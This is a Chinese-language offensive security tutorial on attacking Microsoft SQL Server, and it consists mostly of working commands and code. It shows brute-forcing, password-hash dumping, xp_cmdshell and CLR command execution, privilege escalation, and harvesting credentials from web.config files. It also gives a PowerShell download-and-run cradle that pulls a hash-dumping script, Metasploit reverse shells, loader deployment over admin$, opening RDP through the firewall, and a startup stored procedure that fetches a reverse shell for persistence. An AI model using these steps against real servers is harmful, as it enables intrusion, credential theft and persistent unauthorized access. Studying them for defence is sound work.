




# 奇安信攻防社区-mssql 攻防探究

### mssql 攻防探究

mssql 在渗透测试过程中屡见不鲜，本文基本包含了 mssql 网上能见到的所有利用方式，希望对大家有所帮助。

# 使用 nmap 进行 mssql 攻击

Nmap 是基于 Lua 语言 NSE 脚本的集合，可与调用 ms-sql 的 NSE 脚本对目标系统进行扫描。可与使用以下脚本来查找 ms-sql 的 NSE 脚本。

```php
locate *.nse | grep ms-sql
```


### 使用脚本对 mssql 版本信息进行扫描

```php
nmap -p 1433 --script ms-sql-info 192.168.3.130
```


### 对 mssql 进行暴力破解

```php
nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.3.130
```

可与看到，爆破成功账号 sa:admin  
  
通过对脚本 NSE 文件进行 cat，可与查看脚本使用方法。  


### 使用 NetBIOS 进行枚举

发送具有无效域和空凭据的 MS-TDS NTLM 身份验证请求将导致远程服务使用 NTLMSSP 消息进行响应，该消息公开信息，包括 NetBIOS、DNS 和操作系统版本。

```php
nmap -p1433 --script ms-sql-ntlm-info 192.168.3.130
```


### mssql 密码 hash 转储

```php
nmap -p1433 --script ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```

可与使用 hashcat，john 等进行破解。  


### 枚举数据库表

```php
nmap -p1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```


### 执行 xp\_cmdshell（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=admin,ms-sql-xp-cmdshell.cmd="net user" 192.168.3.130
```

### 执行 mssql 命令（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=admin,ms-sql-query.query="sp_databases" 192.168.3.130
```

# 使用 msf 进行 mssql 攻击

### 定位 Mssql 服务器

```php
msf6 > use auxiliary/scanner/mssql/mssql_ping 
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 192.168.3.0/24
msf6 auxiliary(scanner/mssql/mssql_ping) > set threads 255
msf6 auxiliary(scanner/mssql/mssql_ping) > exploit 
```



### 密码破解

```php
use auxiliary/scanner/mssql/mssql_login
set rhosts 192.168.3.130
set user_file users.txt
set pass_file users.txt
set verbose false
exploit
```


### 获取 mssql 版本信息

```php
use auxiliary/admin/mssql/mssql_sql
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```


### 枚举 mssql 信息

可以看到数据库被授予了哪些权限、哪些登录可用以及其他有用的信息

```php
use auxiliary/admin/mssql/mssql_enum
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```


### 用户枚举

查询 mssql 所有可以正确登录的用户

```php
use auxiliary/admin/mssql/mssql_enum_sql_login
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```


### 捕获 mssql 登录

创建一个虚假 mssql 服务器，捕获登录时的账号密码

```php
use auxiliary/server/capture/mssql
set srvhost 192.168.3.133
exploit
```

尝试登录虚假服务器

```php
sqsh -S 192.168.3.133 -U sa -P "admin"
```

### Mssql Hash 转储

```php
use auxiliary/scanner/mssql/mssql_hashdump
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```



### 通过 xp\_cmdshell 反弹 shell

```php
use exploit/windows/mssql/mssql_payload
set rhosts 192.168.3.130
set username sa
set password admin
set method old
exploit
```

由于 mssql 服务器的系统版本较低，因此 method 选择为 old，否则可能反弹 Shell 失败  
  


### 执行系统命令

```php
use auxiliary/admin/mssql/mssql_exec
set rhosts 192.168.3.130
set username sa
set password admin
set cmd "net user"
exploit
```


### 添加 mssql 用户

创建 user.sql 文件，记住把密码设置复杂一点，否则数据库可能由于密码过于简单而添加失败

```php
CREATE LOGIN test1 WITH PASSWORD = 'admin@123';
EXEC master..sp_addsrvrolemember @loginame = N'test1', @rolename = N'sysadmin'; //设置为管理员用户
```

```php
use auxiliary/admin/mssql/mssql_sql_file
set rhosts 192.168.3.130
set username sa
set password admin
set sql_file user.sql
exploit
```

  
可以看到用户已经成功添加

### 使用 CLR 执行命令反弹 Shell

```php
use exploit/windows/mssql/mssql_clr_payload
set payload windows/meterpreter/reverse_tcp
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```


### 从 db\_owner 到 sysadmin

```php
use admin/mssql/mssql_escalate_dbowner
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```

  
可以看到已经从只有 public 升级为 sysadmin  


### 模拟其他用户提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```


# 使用 xp\_cmdshell 执行命令

### 启动 xp\_cmdshell

  


```php
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 关闭 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
```

### 使用 sqsh 执行命令

```php
sqsh -S 192.168.3.130 -U sa -P "admin"
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
go
xp_cmdshell 'whoami';
go
```


### mssqlcliient.py 连接 mssql

```php
python3 mssqlclient.py administrator:123456@192.168.3.129 -port 1433 -windows-auth
enable_xp_cmdshell
xp_cmdshell "net user"
```


### crackmapexec 调用 web\_delivery 模块上线 Msf

msf 启动 web\_delivery 模块进行监听

```php
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.3.133
exploit
```

  
调用 crackmapexec 执行命令

```php
crackmapexec mssql 192.168.3.129 -u 'administrator' -p '123456' -M web_delivery -o URL=http://192.168.3.133:8080/9SwSSB2rIZOWEP
```


### 搜集 mssql 的 sa 密码

在目标网站目录下寻找 config 文件

```php
# dir /b /s web.config >> tmps.logs
# del tmps.logs /F
```

  
确认下 mssql 数据库连接的账号密码字段名 \[ 如下，“User=”,“Password=” \],因为后续我们需要根据这个字段名来批量撸 sa 的密码

```php
type C:\WebCode\sycms_2.1\Web.config
```

  
根据找到的特征批量抓密码

```php
# findstr /c:"User Id=" /c:"Password=" /si web.config >> tmps.logs
# del tmps.logs /F
```

### 通过 HTTP 加密代理建立 tcp 连接

```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:143/192.168.3.13:1433
```

将本地 143 端口转发到 1433  
使用服务端工具连接即可  
  
**尝试启动 xp\_cmdshell**

```php
select @@version;
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell',1;reconfigure;
exec master..xp_cmdshell 'tasklist | findstr /c:"ekrn.exe" /c:"egui.exe" & whoami /user';
exec master..xp_cmdshell 'wmic OS get Caption,CSDVersion,OSArchitecture,Version';
exec master..xp_cmdshell 'wmic product get name,version';
```

  
`query user`查看一下最近登录的用户  


### 尝试远程加载 powershell 脚本抓取内网 hash

```php
PS C:\> $text = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.3.1/Get-PassHashes.ps1');Get-PassHashes;"
PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\> $EncodedText > bs64.txt
```

  
将 bs64.txt 的内容复制出来放到 mssql 执行 powershell

```php
exec master..xp_cmdshell 'powershell -exec bypass -encodedcommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADMALgAxAC8ARwBlAHQALQBQAGEAcwBzAEgAYQBzAGgAZQBzAC4AcABzADEACgAnACkAOwBHAGUAdAAtAFAAYQBzAHMASABhAHMAaABlAHMAOwA=';
```

  
放 hashcat 跑跑或者彩虹表解密一下  


### 尝试上线 cs

如果目标是站库分离可以这么搞，如果没有直接用蚁剑上传即可

```php
# net use \\10.0.0.7\admin$ /user:"demo\administrator" "blackCeeeK#$%^2368"
# copy loader \\10.0.0.7\admin$\temp
# copy klsr \\10.0.0.7\admin$\temp\
# wmic /node:10.0.0.7 /user:"demo\administrator" /password:"blackCeeeK#$%^2368" PROCESS call create "c:\windows\temp\loader c:\windows\temp\klsr"
# del \\10.0.0.7\admin$\temp\loader /F
# del \\10.0.0.7\admin$\temp\klsr /F
# dir \\10.0.0.7\admin$\temp
# net use \\10.0.0.7\admin$ /del
```

### rdp 利用

`exec master..xp_cmdshell 'netstat -ano'` 查看开放端口  
  
依然还是用 abptts 做下转发，即把本地的 389 转到内网 10.0.0.7 机器的 3389 端口上

```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:389/192.168.3.13:3389
```

查询 rdp 状态

```php
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections
# reg query "hkey_local_machine\system\currentcontrolset\control\terminal server\winstations\rdp-tcp" /v portnumber
```

开启或关闭目标 rdp

```php
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 0 /f
# reg add "hkey_local_machine\system\currentcontrolset\control\terminal server" /v fdenytsconnections /t reg_dword /d 1 /f
```

win 2003 下防火墙放行 rdp 端口

```php
# netsh firewall add portopening tcp 3389 "remote desktop"
# netsh firewall delete portopening tcp 3389
```

win2008 之后系统防火墙放行 rdp 端口

```php
# netsh advfirewall firewall add rule name="remote desktop" protocol=tcp dir=in localport=3389 action=allow
# netsh advfirewall firewall delete rule name="remote desktop" dir=in protocol=tcp localport=3389
```

### 禁用 xp\_cmdshell

```php
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure;
exec master..xp_cmdshell 'whoami';
```

撸掉 mssql 所有账户的密码备用

```php
SELECT name, password_hash FROM master.sys.sql_logins
```

### xp\_cmdshell 被删除

通过上传 xplog70.dll 恢复

```php
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

# 使用 CLR 程序集执行命令

### 启用 CLR 与 GUI 集成

点击方面  
  
将外围应用配置器的 ClrIntegrationEnabled 的值从 false 变为 true  
  
右键 msdb 选择属性，发现可信为 false 且无法修改  
  
使用命令将其设置为 true

```php
ALTER DATABASE [msdb] SET TRUSTWORTHY ON
```

### 利用 CLR 程序集执行命令

创建c#类库  
  
添加代码并且生成 DLL

```php
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));

        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);

        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
};
```

  
在 msdb 数据库下新建程序集，导入生成的 dll 点击确定  
  
成功之后可以在程序集下看到导入的程序集  
  
使用以下命令创建过程

```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

执行命令即可

```php
cmd_exec 'whoami'
```

  
尝试使用命令行来添加 clr，首先删除刚添加的程序集和过程

```php
DROP PROCEDURE  cmd_exec
DROP ASSEMBLY shell
```

选择调用的数据库

```php
use msdb
```

启用 CLR 集成

```php
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE
GO
```

查询是否启用了 CLR 集成，value 为 1 则为开启

```php
SELECT * FROM sys.configurations WHERE name = 'clr enabled'
```

  
启用可信任

```php
ALTER DATABASE msdb SET TRUSTWORTHY ON
```

查询是否执行成功，为 1 则开启

```php
select name, is_trustworthy_on from sys.databases
```

  
使用命令创建程序集

```php
CREATE ASSEMBLY shell
FROM 'c:\temp\shell.dll'
WITH PERMISSION_SET = UNSAFE;
```

  
创建过程

```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

成功执行命令  


### 16 进制 Dll 转换

由于 dll 可能会被查杀，尝试转换为 16 进制导入，使用以下 ps1 脚本转换 dll

```php
# Target file
$assemblyFile = "C:\\Users\\administrator\\Desktop\\cmd_exec.dll"

# Build top of TSQL CREATE ASSEMBLY statement
$stringBuilder = New-Object -Type System.Text.StringBuilder 
$stringBuilder.Append("CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM `n0x") | Out-Null

# Read bytes from file
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}

# Build bottom of TSQL CREATE ASSEMBLY statement
$stringBuilder.AppendLine("`nWITH PERMISSION_SET = UNSAFE") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Build create procedure command
$stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Create run os command
$stringBuilder.AppendLine("EXEC[dbo].[cmd_exec] 'whoami'") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Create file containing all commands
$stringBuilder.ToString() -join "" | Out-File C:\Users\administrator\Desktop\\dll_hex.txt
```

  
或使用 PowerUpSql 生成更加方便

```php
powershell
powershell -ep bypass
Import-Module .\PowerUpSQL.ps1
Create-SQLFileCLRDll -ProcedureName “runcmd” -OutFile runcmd -OutDir C:\Users\administrator\Desktop\
```

会在指定位置生成 3 个文件，直接调用即可  


### 使用 PowerUpSQL 远程调用执行 CLR

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'net user' -Verbose | Out-GridView
```


### 使用 msf 配合 PowerUpSQL 上线

```php
use exploit/windows/misc/hta_server
set srvhost 192.168.3.133
exploit
```

执行命令

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'mshta.exe http://192.168.3.133:8080/GzoD8Ou5ltc.hta'
```

### 使用 msf clr 模块上线

```php
use exploit/windows/mssql/mssql_clr_payload
set rhosts 192.168.3.130
set username sa
set password admin
set payload windows/meterpreter/reverse_tcp
exploit
```


### WarSQLKit

```php
https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit
```

# 使用 SP\_OACREATE 执行命令

OLE 代表对象链接和嵌入。Microsoft 开发这项技术是为了让应用程序更轻松地共享数据。因此，自动化使应用程序能够操纵在其他应用程序中实现的对象。该自动化服务器通过 COM 接口展示其功能；对于不同的应用程序来读取它们，它进一步帮助它们通过检索对象和使用其服务来自动化其属性。

### 开启 OLE 自动化

查询是否开启

```php
EXEC sp_configure 'Ole Automation Procedures'; 
GO
```

config\_value 和 run\_value 均为 0 这意味着 OLE 自动化已禁用  
  
开启 OLE 自动化

```php
sp_configure 'show advanced options', 1; 
GO 
RECONFIGURE; 
GO 
sp_configure 'Ole Automation Procedures', 1; 
GO 
RECONFIGURE; 
GO
```

  
执行命令，利用这种方式执行命令没用回显，只能输出到文件中

```php
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\\Windows\\System32\\cmd.exe /c whoami /all > C:\\Users\\Administrator\\Desktop\\1.txt';
```


### 使用 PowerUpSQL 执行

```php
powershell
powershell -ep bypass
Invoke-SQLOSCmdOle -Username sa -Password admin -Instance "192.168.3.130,1433" -Command "whoami /all" -Verbose
```


# 用户权限提升之模拟

MSSQL Impersonate 命令是一种根据其他用户名进行身份验证以执行系统查询的方法。为此，它通常与 CREATE USER 语句结合使用。当您使用模拟帐户时，SQL Server 会检查是否拥有查询引用的所有数据库的权限。

### 开启用户模拟

新建一个低权限用户  
  
右键登录名，点击属性，添加特定对象  
  
选择对象类型为登录名。  
  
浏览对象，选择 sa  
  
授予模拟权限。  
  
使用 msf 执行命令即可成功提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username lowpriv
set password admin
exploit
```

  


# 使用外部脚本执行命令

sqlserver 2019 增添了许多新功能，安装时选择“机器学习服务和语言”，需要选中 R、Python、Java 复选框。  
检查外部脚本是否启用

```php
sp_configure 'external scripts enabled'
GO
```

启动外部脚本

```php
EXECUTE sp_configure 'external scripts enabled', 1;
GO
RECONFIGURE;
GO
```

### 执行 python 命令

```php
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'
```


### 执行 R 脚本

```php
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe /c ipconfig",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO
```


# 滥用 Trustworthy（db\_owner 提权）

### 手动提权

创建 public 用户权限 test  
  
新建数据库 ignite  
  
编辑 test 用户的用户映射，使其拥有 ignite 数据库的 db\_owner 身份  
  
检查数据库是否启用了可信属性

```php
select name,is_trustworthy_on from sys.databases
```

可以看到 ignite 数据库暂未开启  
  
激活其可信属性

```php
ALTER DATABASE [ignite] SET TRUSTWORTHY ON
```

  
使用创建的 test 用户登录，在 ignite 数据库中新建查询哪些用户是其 db\_owner

```php
use ignite;
SELECT DP1.name AS DatabaseRoleName,  
    isnull (DP2.name, 'No members') AS DatabaseUserName  
FROM sys.database_role_members AS DRM 
RIGHT OUTER JOIN sys.database_principals AS DP1 
    ON DRM.role_principal_id = DP1.principal_id 
LEFT OUTER JOIN sys.database_principals AS DP2 
    ON DRM.member_principal_id = DP2.principal_id 
WHERE DP1.type = 'R'
ORDER BY DP1.name;
```

可以看到已经存在 test 用户  
  
由于 test 和 dbo 用户都是数据库的所有者，我们现在可以通过 test 来模拟 dbo 用户，一旦伪装成功，就能进一步获取权限。

```php
EXECUTE AS USER = 'dbo';
SELECT system_user;
```

  
上述查询已成功执行。现在，我们将借助以下查询将 raj 用户设置为 sysadmin，从而为它获得更多权限  
  
可以看到 test 用户的属性已经被设置为 admin  


### 使用 PowerUpSQL 提升权限

首先查看可信权限是否被激活

```php
Import-Module .\PowerUpSQL.ps1
Invoke-SQLAuditPrivTrustworthy -Username test -Password admin -Instance '192.168.3.137,1433' -Verbose
```

可以看到可信权限已经被打开  


```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser raj -SqlPass Password@1 -SqlServerInstance WIN-P83OS778EQK\SQLEXPRESS
```

调用 [Powershellery](https://github.com/nullbind/Powershellery/) 项目的 SqlServer-Escalate-DbOwner 模块提升权限

```php
Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
Invoke-SqlServer-Escalate-DbOwner -SqlUser test -SqlPass admin -SqlServerInstance '192.168.3.137,1433'
```

成功升级为 sysadmin 权限  
  
也可使用 msf 中的模块提升权限，这里不再赘述。

# 使用存储过程进行权限维持

使用 matser 数据库

```php
USE master
GO
```

这里假设 xp\_cmdshell 已被开启，选择使用 nishang 中的 Invoke-PowerShellTcpOneLine.ps1 脚本进行反弹 shell

```php
$client = New-Object System.Net.Sockets.TCPClient("192.168.3.130",6666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

创建存储过程 powershell 远程调用脚本

```php
CREATE PROCEDURE test_sp
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(\"http://192.168.3.133:8081/Invoke-PowerShellTcpOneLine.ps1\")"'
GO
```

我们现在将此存储过程移至启动阶段，因为我们希望它在服务器启动后立即执行

```php
EXEC sp_procoption @ProcName = 'test_sp'
, @OptionName = 'startup'
, @OptionValue = 'on';
```

查询启动中拥有的存储过程，已经添加成功

```php
SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

  
将 sqlserver 服务重新启动，成功反弹 shell  
  

